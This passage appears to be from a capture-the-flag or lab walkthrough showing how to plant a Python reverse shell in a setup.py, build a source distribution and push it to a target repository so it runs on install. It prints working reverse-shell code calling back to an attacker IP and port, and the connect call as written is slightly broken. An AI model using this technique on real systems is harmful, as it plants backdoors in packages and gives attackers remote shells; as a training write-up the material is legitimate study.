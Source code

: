 ```python
    ],
    python_requires='>=3.6',
)
```

we can insert a reverse shell from https://www.revshells.com/ :

```python
import sys,socket,os,pty
RHOST="10.10.14.10"
RPORT=9001
s=socket.socket()
s.connect( RHOST,RPORT)
[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")
```

then create  a source distribution package :

python setup.py sdist

The archive "mytest-0.0.1.tar.gz" is build in dist directory.

We can download this archive  in the target repository :

![](assets/gogs_john_test_commit.png)
